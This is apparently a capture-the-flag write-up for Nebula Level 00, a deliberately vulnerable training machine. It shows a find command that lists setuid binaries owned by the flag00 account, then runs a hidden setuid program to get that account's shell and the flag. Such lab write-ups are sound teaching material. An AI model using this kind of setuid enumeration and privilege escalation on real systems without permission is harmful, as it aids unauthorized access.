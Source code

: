 # Nebula - Level 00

### About ###

>This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
>
>Alternatively, look at the find man page.
>
>To access this level, log in as level00 with the password of level00.

### Solution ###

According to the description, the program to find belongs to `flag00` and has the `setuid` bit set. By using these information and the command find, two programs are found.

```
level00@nebula:~$ find / -type f -perm -4000 -user flag00 -exec ls -l {} \; 2>/dev/null
-rwsr-x--- 1 flag00 level00 7358 Nov 20  2011 /bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 Nov 20  2011 /rofs/bin/.../flag00
```

These programs start a shell with the permissions of the account `flag00` which can be used to get the flag.

```
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```